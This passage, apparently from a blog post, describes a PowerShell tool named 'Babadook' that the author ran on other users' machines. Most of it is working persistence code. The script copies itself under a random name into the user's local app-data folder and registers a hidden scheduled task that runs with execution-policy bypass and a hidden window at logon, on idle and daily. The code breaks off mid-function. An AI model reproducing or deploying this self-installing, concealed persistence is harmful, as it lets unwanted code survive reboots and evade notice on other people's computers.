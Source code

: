 # ... more code
{{< /highlight >}}

That would take care of popping out the &#8220;Properties&#8221; dialog out of any file. Booya!

### When everything else fails, reboot!

I&#8217;m sure there are some other ways to kill my process but that was enough for the moment (and I needed to get some lunch anyway). So people started realizing that a reboot was the only way to get rid of the Babadook. 

I couldn&#8217;t leave this that way and needed a a persistence method. I first thought about the &#8220;Run&#8221; key on the registry but that might need admin privileges, so why not resort to our well known scheduled tasks?

Popped up a code to copy the Babadook script to the local machine with a random name and create the new task to run &#8220;At Logon&#8221;, &#8220;On Idle&#8221; and &#8220;Daily at 8AM&#8221;.

{{< highlight powershell >}}
function Babadook-Persist
{
	$CharSet = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789".ToCharArray()
	$NewName = $(Get-Random -InputObject $CharSet -Count 8 | % -Begin { $randStr = $null } -Process { $randStr += [char]$_ } -End { $randStr }) + ".ps1"
	$NewPath = "$($env:LOCALAPPDATA)\$($NewName)"
    
    Install-Task $NewPath
    
}# end :: Babadook-Persist

function Install-Task ($BBDPath) {
    $CommandArguments = "-executionpolicy bypass -windowstyle hidden -f `"$($BBDPath)`""
    $taskRunAsuser = [Environment]::UserDomainName +"\" + $env:USERNAME

    $service = new-object -com("Schedule.Service")
    $service.Connect()
    $rootFolder = $service.GetFolder("\")

    Try {

        $rootFolder.GetTask("\Babadook") | Out-Null
        Log "Babadook persist task already installed"
        
    } Catch {
	
		Log "Copying Babadook to local machine at `"$($BBDPath)`""
		Copy-Item $script:MyInvocation.MyCommand.Path $BBDPath -Force
        Log "Installing Babadook persist task"

        $taskDefinition = $service.NewTask(0)

        $regInfo = $taskDefinition.RegistrationInfo
        $regInfo.Description = 'Ba-ba-ba DOOK DOOK DOOK'
        $regInfo.Author = $taskRunAsuser

        $settings = $taskDefinition.Settings
        $settings.Enabled = $True
        $settings.StartWhenAvailable = $True
        $settings.Hidden = $True


 [1]: https://msdn.microsoft.com/en-us/library/windows/desktop/aa383607(v=vs.85).aspx
 [2]: https://github.com/jseidl/Babadook